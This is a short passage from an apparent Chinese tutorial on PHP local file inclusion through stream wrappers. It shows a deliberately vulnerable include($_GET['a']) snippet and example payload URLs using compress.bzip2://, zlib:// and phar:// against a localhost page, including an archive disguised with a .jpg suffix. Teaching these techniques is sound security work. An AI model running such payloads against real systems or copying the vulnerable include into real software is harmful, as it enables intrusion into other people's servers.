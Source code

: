 测试

用7-zip生成一个bz2压缩文件

pyload:`http://127.0.0.1/xxx.php?a=compress.bzip2://C:/Users/liuxianglai/Desktop/test.bz2`

或者文件改为jpg后缀

`http://127.0.0.1/xxx.php?a=compress.bzip2://C:/Users/liuxianglai/Desktop/test.jpg`

#### zlib://协议

同上

### phar://协议

`phar://`协议与`zip://`类似,同样可以访问zip格式压缩包内容

```php
<?php
include($_GET["a"]);
?>
```

`http://localhost:32989/?a=phar:///var/www/html/phpinfo.zip/phpinfo.php`

`http://localhost:32989/?a=phar://phpinfo.zip/phpinfo.php`